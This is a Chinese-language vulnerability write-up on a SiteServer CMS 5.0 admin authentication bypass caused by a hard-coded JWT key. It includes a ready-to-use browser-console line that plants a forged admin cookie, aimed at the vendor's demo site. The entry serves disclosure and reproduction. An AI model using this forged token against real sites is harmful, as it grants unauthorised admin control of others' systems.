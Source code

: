 ```yaml
---
title: "SiteServer CMS 5.0 管理后台Cookie欺骗"
id: zhfly3126
---
```


# SiteServer CMS 5.0 管理后台Cookie欺骗

## 一、漏洞简介

SiteServer CMS 5.0 后台访问控制采用JWT技术进行身份鉴别，HTTP请求时通过Cookie中的ss_administrator_access_token字段值作为身份鉴别，而加密ss_administrator_access_token字段值的key在安装时未进行随机初始化，导致所有相同版本的应用系统Cookie可以通用,通过修改Cookie可登陆任意相同版本后台。

## 二、漏洞影响

SiteServer CMS 5.0

## 三、复现过程

系统环境：IIS 7.5 + MSSQL 2008 R2 （操作系统：Windows Server 2008 R2）

先访问一个站点，以官方体验站点为例子：

http://cms.demo.siteserver.cn/siteserver/login.aspx

Chrome浏览器按F12切换到控制台，设置ss_administrator_access_token的Cookie值（以下PoC可以直接使用）：

```
document.cookie='ss_administrator_access_token=M3ENIa3NKJJ39JCRHnY4PgfJqMC7lFjggL0e9S06Bs9ubZE90add0xM2aesaL0add0Cxo8Xe5VZrSanerzFU8oZaMXCC9AoJfZvq5AtBXGxi0slash0tCRtk8UgV5UXu1u2pDL6htbwIqGBZx0slash0ZqVH4x0LjRE20slash0mz3FHc5QJFpTAKI0slash0AJ52LJ6XnWB7gsJuHFauL0add0q0add0sIMft8e3ef840gWzQaChpfGHfYwGS5wHFaC19T56X2J0Z5Hn500equals0' 
```

再次访问（后面没有login.aspx）：

http://cms.demo.siteserver.cn/siteserver/

登陆成功